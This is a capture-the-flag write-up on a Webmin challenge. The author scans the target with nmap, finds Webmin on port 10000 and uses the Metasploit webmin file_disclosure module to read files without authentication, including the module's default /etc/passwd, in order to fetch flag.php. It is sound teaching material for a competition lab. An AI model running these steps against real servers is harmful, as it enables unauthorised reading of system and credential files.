 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.
>
> **Goal:** Find the flag for 2000 Points.

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
> nmap -Pn 54.221.X.X
> Port      State Service
> 22/tcp    open  ssh
> 443/tcp   open  https
> 10000/tcp open  snet-sensor-mgmt

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at this page [Link to image here]. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing.

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.

> msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
> msf auxiliary(file_disclosure) > show options
>
> Module options (auxiliary/admin/webmin/file_disclosure):
>
> Name     Current Setting    Required  Description
> ----     ---------------    --------  -----------
> DIR      /unauthenticated   yes       Webmin directory path
> Proxies                     no        Use a proxy chain
> RHOST    54.221.*.*         yes       The target address
> RPATH    /etc/passwd        yes       The file to download
> RPORT    10000              yes       The target port
> VHOST                       no        HTTP server virtual host
>
> set RPATH /var/www/flag.php

Boom! We have a flag!

**NCL-OSSL-1337**
